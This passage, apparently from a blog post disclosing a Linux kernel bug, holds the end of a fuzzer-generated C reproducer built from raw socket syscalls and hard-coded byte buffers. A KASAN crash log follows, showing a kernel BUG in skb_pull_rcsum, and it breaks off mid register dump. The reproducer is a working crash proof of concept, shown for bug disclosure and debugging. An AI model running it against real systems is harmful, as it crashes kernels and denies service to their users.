 r[3] = syscall(SYS_bind, r[1], 0x20006000ul, 0x80ul, 0, 0, 0);
memcpy((void*)0x20017f5a,
"\x25\xf9\x1b\xd4\xeb\xf5\x39\x3c\xd5\x80\xf6\xf0\xd6\xe1\xff\x65\x30\x97\xac\xaf\x1b\xbc\xc8\xae\xa4\x1e\xab\xd8\x60\x51\xcb\x4b\xed\xae\xaa\x37\xda\x80\xf9\x06\xb8\x6b\xdf\xcc\x78\x0f\xd0\x87\xf2\x65\x5f\x5e\x85\xb5\x4d\x6b\x48\xff\xf3\x0d\x46\x1c\xe5\xa4\x48\x38\x78\x18\x71\x9b\x75\xc4\xc9\x77\xf2\xc4\x5f\x88\x8e\xd2\x8d\x97\x26\x56\x4c\x93\x31\xbc\x64\x22\xff\xdc\x68\x01\x74\x43\xea\x84\x6f\x1d\x90\xeb\x98\x6c\xe9\x1c\x3b\x72\xab\xa0\xb5\x5b\xe8\xee\xfb\xf3\x2d\x96\xa0\xd4\x13\x55\xbc\xd4\xe0\x41\xfd\x78\x7e\x90\xf9\x9f\x9c\x57\x32\x47\xf2\xcf\x7f\x4a\x7b\x79\x0a\xdd\xb4\xce\xbd\x0b\x44\x02\x95\x0f\xaf\x50\xff\x87\x90\x09\xaa\x94\x01\x41\x43\x08\x8e\xb1",
166);
memcpy((void*)0x200001a2,
"\x0a\x00\xab\x12\x0d\xf5\xba\x69\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\xac\xad\xce\xa0",
28);
r[6] = syscall(SYS_sendto, r[1], 0x20017f5aul, 0xa6ul,
0x249e4e54fe149d8cul, 0x200001a2ul, 0x1cul);
*(uint16_t*)0x2001dff0 = (uint16_t)0x1;
*(uint64_t*)0x2001dff8 = (uint64_t)0x2001d000;
*(uint16_t*)0x2001d000 = (uint16_t)0x6;
*(uint8_t*)0x2001d002 = (uint8_t)0x4e6;
*(uint8_t*)0x2001d003 = (uint8_t)0x0;
*(uint32_t*)0x2001d004 = (uint32_t)0x1;
r[13] = syscall(SYS_setsockopt, r[1], 0x1ul, 0x1aul, 0x2001dff0ul, 0x10ul,
0);
r[14] = syscall(SYS_dup, r[1], 0, 0, 0, 0, 0);
*(uint32_t*)0x20013000 = (uint32_t)0x28;
*(uint32_t*)0x20013004 = (uint32_t)0x2;
*(uint64_t*)0x20013008 = (uint64_t)0x0;
*(uint64_t*)0x20013010 = (uint64_t)0xfffffffffffffff7;
*(uint64_t*)0x20013018 = (uint64_t)0x7;
*(uint16_t*)0x20013020 = (uint16_t)0x1;
r[21] = syscall(SYS_write, r[14], 0x20013000ul, 0x28ul, 0, 0, 0);
return 0;
}
{% endhighlight %}

# kASAN

{% highlight text %}
[   59.831394] kernel BUG at net/core/skbuff.c:3051!
[   59.831802] invalid opcode: 0000 [#1] SMP KASAN
[   59.832193] Modules linked in:
[   59.832488] CPU: 0 PID: 1651 Comm: derp2 Not tainted 4.7.0-rc6 #1
[   59.833022] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS
Ubuntu-1.8.2-1ubuntu1 04/01/2014
[   59.833827] task: ffff8800ba26c740 ti: ffff8800b8ba8000 task.ti:
ffff8800b8ba8000
[   59.834498] RIP: 0010:[<ffffffff8292611c>]  [<ffffffff8292611c>]
skb_pull_rcsum+0x1ec/0x2c0
[   59.835238] RSP: 0018:ffff88011b007768  EFLAGS: 00010206
[   59.835705] RAX: ffff8800ba26c740 RBX: ffff880119c338c0 RCX:
ffff880119c33940
[   59.836311] RDX: 0000000000000100 RSI: 0000000000000008 RDI:
ffff880119c33940
[   59.836916] RBP: ffff88011b007798 R08: ffff88011b007700 R09:
0000000000000001
[   59.837521] R10: 1ffff10017742929 R11: ffff880119c33982 R12:
0000000000000001
[   59.838141] R13: 0000000000000008 R14: ffff880119c33998 R15:
ffff8800b88ce490
[   59.838767] FS:  0000000002454880(0000) GS:ffff88011b000000(0000)
knlGS:0000000000000000
[   59.839522] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033